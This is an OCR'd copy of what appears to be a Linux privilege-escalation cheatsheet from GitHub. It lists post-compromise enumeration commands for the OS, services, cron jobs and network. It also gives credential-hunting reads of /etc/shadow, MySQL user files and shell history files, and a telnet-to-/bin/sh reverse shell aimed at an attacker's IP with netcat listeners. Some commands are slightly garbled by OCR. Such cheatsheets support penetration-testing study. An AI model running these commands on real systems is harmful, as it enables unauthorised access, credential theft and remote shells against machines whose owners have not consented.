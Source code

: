#T𝙝𝙚 𝙇𝙞𝙣𝙪𝙭 𝙋𝙧𝙞𝙫𝙞𝙡𝙚𝙜𝙚 𝙀𝙨𝙘𝙖𝙡𝙖𝙩𝙞𝙤𝙣 𝘾𝙝𝙚𝙖𝙩𝙨𝙝𝙚𝙚𝙩

###Operating System
What's the distribution type? What version?

cat /etc/issue
cat /etc/-release
cat /etc/lsb-release


What's the kernel version? Is it 64-bit?

cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-

What can be learnt from the environmental variables?

cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set

Is there a printer?

lpstat -a

Applications & Services

What services are running? Which service has which user privilege?

ps aux
ps -ef
top
cat /etc/services

Which service(s) are been running by root? Of these services, which are vulnerable

ps aux | grep root
ps -ef | grep root

What applications are installed? What version are they? Are they currently running?

ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/

Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?

cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r./

What jobs are scheduled?

crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root

Any plain text usernames and/or passwords?

grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

Communications & Networking
What NIC(s) does the system have? Is it connected to another network?

/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network

What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?

cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname

What other users & hosts are communicating with the system?

lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w

Whats cached? IP and/or MAC addresses

arp -e
route
/sbin/route -nee

Is packet sniffing possible? What can be seen? Listen to live traffic

tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]

Have you got a shell? Can you interact with the system?

nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [attackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!

Confidential Information & Users
Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?

id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l

What sensitive files can be found?

cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/

Anything "interesting" in the home directorie(s)? If it's possible to access

ls -ahlR /root/
ls -ahlR /home/

Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords

cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg

What has the user being doing? Is there any password in plain text? What have they been edting?

cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history

What user information can be found?

cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root
